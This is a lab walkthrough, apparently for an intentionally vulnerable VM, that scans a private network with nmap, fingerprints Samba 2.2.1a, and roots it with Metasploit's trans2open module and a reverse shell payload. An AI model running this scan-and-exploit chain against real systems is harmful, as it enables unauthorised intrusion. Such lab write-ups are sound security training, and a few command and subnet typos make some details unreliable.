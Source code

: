 ### Solved using Metasploit

Let Host discovery from Attack machine , run `ifconifg` and note our machine ip `192.168.69.5` , so network IP range will be `192.168.69.0` - `192.168.69.255` with subnet of `255:225:225:0`

`-sn` Ping Scan Disable port

```
nmap -sn 192.168.69.0/24
```

output

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:24 CDT
Nmap scan report for 192.168.69.1
Host is up (0.00022s latency).
Nmap scan report for 192.168.69.5
Host is up (0.00013s latency).
Nmap scan report for 192.168.69.6                <<<<<< vuln machine
Host is up (0.00046s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.91 seconds
```

we got machine running on 192.168.69.6

<img src="/../img/Pasted image 20240529095558.png" alt="Example Image" width="1080"/>

Version Scan

```
nmap -sV 192.168.69.6
```

```
-sV: Probe open ports to determine service/version info
             --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
             --version-light: Limit to most likely probes (intensity 2)
             --version-all: Try every single probe (intensity 9)
             --version-trace: Show detailed version scan activity (for debugging)
```

output

```
└─$ nmap -sV 192.168.69.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:27 CDT
Nmap scan report for 192.168.69.6
Host is up (0.00042s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

`-sV` enable OS detection and version detection , script scanning , traceroute

we know it running , Samba and its Server Message Block server ,then find version of that service , using Metasploit , search `smb_version` exploit in Metasploit , and got `auxiliary/scanner/smb/smb_version`

```
msfconsole
use auxiliary/scanner/smb/smb_version
show options
```

```
Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s)
```

set target machine ip for `rhosts`

```
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.69.6
rhosts => 192.168.69.6
exploit
```

```
[*] 192.168.69.6:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.69.6:139      -   Host could not be identified: Unix (Samba 2.2.1a) <<<<<,
[*] 192.168.69.6:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/

it looks like version Samba 2.2.1a is vulnerable to `exploit/linux/samba/trans2open`

Description of trans2open

```
This exploits the buffer overflow found in Samba versions
  2.2.0 to 2.2.8. This particular module is capable of
  exploiting the flaw on x86 Linux systems that do not
  have the noexec stack option set.
```

```
use  exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp    # Becuase no payload has been configed
set rhosts 192.168.69.6
run
```

Boom !!! we got root flag

<img src="../img/Pasted image 20240529101919.png" alt="Example Image" width="1080"/>

I Escalated Root Access !!
